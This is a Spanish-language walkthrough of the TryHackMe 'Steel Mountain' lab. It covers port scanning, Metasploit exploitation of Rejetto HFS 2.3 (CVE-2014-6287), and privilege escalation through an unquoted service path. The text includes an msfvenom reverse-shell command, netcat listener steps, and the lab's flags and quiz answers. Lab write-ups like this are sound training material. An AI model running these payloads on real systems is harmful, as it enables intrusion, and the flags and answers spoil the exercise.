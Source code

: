 # Máquina Steel Mountain

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Steel Mountain**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros


![image](https://github.com/user-attachments/assets/1ad02628-b792-4046-8c68-64e0cdf76c14)


![image](https://github.com/user-attachments/assets/32314d7a-703c-480a-b5a8-a60894c497b1)


Buscamos sus versiones


![image](https://github.com/user-attachments/assets/8d94a0b4-aba3-4d7d-b5b3-1d8631e90ebb)


Convertimos el archivo que se nos genero para poder visualizarlo mejor con el siguiente comando **--> xsltproc pc.xml -o pc.html <--** y luego lo abrimos con el navegador


![image](https://github.com/user-attachments/assets/20517a9e-b2c8-41ce-815a-f715c1af3237)


![image](https://github.com/user-attachments/assets/53650fa0-093c-4d9c-92fa-c1e813c0c5a6)



### Resumen de la Información Obtenida

|IP             | Sistema OPerativo            | Puertos/Servicios                            | 
|:------------: |:----------------------------:| :-------------------------------------------:| 
| 10.10.89.218  |Windows Server 2012 x64-based | 80  http Microsoft-IIS/8.5                   |
|               |                              | 135 msrpc                                    |
|               |                              | 139 netbios-ssn                              |
|               |                              | 445 microsoft-ds/Windows Server 2008 R2-2012 |
|               |                              | 3389 ms-wbt-server                           |
|               |                              | 5985 http                                    |
|               |                              | 8080 http/file server 2.3                    |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un Fuzzing


![image](https://github.com/user-attachments/assets/cd6951ad-7dd5-4523-a4e0-4566dbd5a736)


En el reconocimiento encontramos que tenemos el puerto 8080 abierto así que procedemos abrir la ip con ese puerto


![image](https://github.com/user-attachments/assets/1fd1e9b8-5552-48fc-9121-0c68c9cf6ceb)


Como podemos observar en la sección de server information nos sale que es un Http File Server 2.3 en forma de un link si lo abrimos nos dirige a una pagina llamada **rejetto**


![image](https://github.com/user-attachments/assets/9145d40b-8509-4c4c-85bb-d20471c743a4)


Buscamos vulnerabilidad a rejetto


![image](https://github.com/user-attachments/assets/958df400-b4d3-4a2c-b4c2-3ee47721b7f9)



## 3. Explotación


Abrimos Metasploit con el comando -->**msfconsole**<-- y buscamos la vulnerabilidad


![image](https://github.com/user-attachments/assets/8e7da341-5721-44f1-8e8b-bb31567b1284)


Modificamos los parámetros


![image](https://github.com/user-attachments/assets/14159ff1-52cc-4193-81ce-d84837931283)


![image](https://github.com/user-attachments/assets/a560af1a-a4d9-4ac1-90cc-03146888ce82)


Corremos el exploit y una ves obtenida una sesión de meterpreter ejecutamos el comando --> **shell**



![image](https://github.com/user-attachments/assets/a23d7d9f-f087-46fb-8cba-79acb7f00d90)


Encontramos el contenido deel archivo user.txt 🚩


![image](https://github.com/user-attachments/assets/b7401654-7e69-463b-b4aa-06a9389b7b2d)


## 4. Escalación de privilegios

Ejecutamos el siguiente comando con msfvenom para realizar una Shell reverse

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.86.141 LPORT=4443 -f exe -o Advanced.exe


![image](https://github.com/user-attachments/assets/251064ae-618a-44b9-a822-64cfa6da47df)


Montamos nuestra maquina como servidor


![image](https://github.com/user-attachments/assets/0e45fa38-77f2-4ecd-82e9-53a28bde7a8e)


Descargamos nuestro archivo y detenemos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/c64351fb-5cb0-4404-8eb7-5ac77f839798)


Activamos nuestro netcat


![image](https://github.com/user-attachments/assets/8fba1783-c185-4749-a550-b4a7bc0f7de2)


Activamos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/7a538864-39ea-4437-bdd8-da3997fdbcdb)


Una vez activado el servicio de AdvancedSystemCareService9 vemos que en nuestra maquina donde nos pusimos modo escucha se nos conecta, ahora procedemos a buscar el archivo root.txt


![image](https://github.com/user-attachments/assets/dc1f8056-4622-4951-b3dc-639efe049886)


![image](https://github.com/user-attachments/assets/494786e3-582d-4c64-b6f4-3be8a04c83b1)



## 5.Banderas 🏁

|user.txt | b04763b6fcf51fcd7c13abc7db4fd365 |
|:-------:|:--------------------------------:|
|root.txt | 9af5f314f57607c00fd09803a587db80 |



## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

•¿Quién es la empleada del mes?
Bill Harper

•Escanee la máquina con nmap. ¿En qué otro puerto se ejecuta un servidor web?
8080

•Eche un vistazo al otro servidor web. ¿Qué servidor de archivos se está ejecutando?
Rejetto http file server

•¿Cuál es el número CVE para explotar este servidor de archivos?
2014-6287

•Utilice Metasploit para obtener un shell inicial. ¿Qué es la bandera de usuario?
b04763b6fcf51fcd7c13abc7db4fd365

•Preste mucha atención a la opción CanRestart que está configurada como verdadera. ¿Cuál es el nombre del servicio que aparece como una vulnerabilidad de ruta de servicio sin comillas?
AdvancedSystemCareService9

•¿Qué es la bandera root?
9af5f314f57607c00fd09803a587db80

•El formato es el comando "powershell -c" aquí
powershell -c Get-Service


### Entrando a la máquina destino utilizando msfvenom con shikata ga nai

Creamos el archivo Advanced2.exe con los siguientes parámetro: 
 
--> -a para indicar la arquitectura del sistema operativo 
 
--> -p para indicar el payload
 
--> lhost que seria la ip de nuestra máquina
 
--> lport que sería el puerto por donde vamos a escuchar
 
--> -e para indicar el encoder a utilizar
 
--> -i para indicar el numero de interacciones que va tener
 
--> -f para indicar que será un ejecutable
 
--> – o para indicar el parámetro de salida


![image](https://github.com/user-attachments/assets/5cf72075-9e1d-488d-8728-4440291af6ea)


Descargamos el archivo en la máquina destino


![image](https://github.com/user-attachments/assets/742e0b90-94e0-44df-b237-c55abe8dd0af)


Activamos el netcat en el puerto 4443


![image](https://github.com/user-attachments/assets/83783d14-30a0-4aac-b257-5ea5dda7e416)


Ejecutamos

![image](https://github.com/user-attachments/assets/222224d3-975d-40a3-a1dc-02a691b20465)


Logramos entrar


![image](https://github.com/user-attachments/assets/6327b2e2-d5d0-4b20-a8eb-a018dc5b7c19)



### Aplicación de la Herramienta PowerUp.ps1

Descargamos desde nuestra máquina como servidor nuestro archivo PowerUp en la máquina destino


![image](https://github.com/user-attachments/assets/4fe2649c-723f-4327-badf-74088685acbc)


Regresamos a meterprete y ejecutamos load powershell


![image](https://github.com/user-attachments/assets/5c901326-68a3-4b17-b0c7-b513d1b9e87f)


Ejecutamos los siguientes comando e invocamos la herramienta



![image](https://github.com/user-attachments/assets/d0e78e49-e60e-4ccd-88ab-378ab6d820b2)



Mediante PowerUp se comprueban servicios vulnerables, aplicaciones susceptibles a DLL Hijacking, configuración del registro y otras comprobaciones.


![image](https://github.com/user-attachments/assets/2e4a24ae-8055-4983-a13d-2ab4de04cd0f)


![image](https://github.com/user-attachments/assets/7d0dacf0-449b-423c-8c43-3cffd76999a7)




